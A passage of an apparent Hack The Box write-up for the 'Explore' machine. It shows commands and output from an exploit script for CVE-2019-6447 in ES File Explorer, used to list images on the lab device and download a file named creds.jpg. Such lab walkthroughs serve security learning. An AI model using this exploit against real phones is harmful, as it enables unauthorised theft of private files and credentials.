## User Credentials

The list of file goes on for a while, skimming through there was nothing interesting. Looking at pictures was more promising:

```text
root@kali:~/htb/explore# python3 50070.py listPics 10.10.10.247
==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================
name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

What could this one called creds.jpg be! Let's grab it and see:

```text
root@kali:~/htb/explore# python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg  
==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================
[+] Downloading file...
[+] Done. Saved as `out.dat`.

root@kali:~/htb/explore# file out.dat
out.dat: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=12, manufacturer=Apple, model=iPhone XR, orientation=upper-right, xresolution=174, yresolution=182, resolutionunit=2, software=14.4, datetime=2021:03:06 02:13:37, hostcomputer=iPhone XR, GPS-Data], comment: "Optimized by JPEGmini 3.18.2.210033067-TBTBLN 0x905c306b", baseline, precision 8, 4032x3024, components 3

root@kali:~/htb/explore# mv out.dat creds.jpg
```
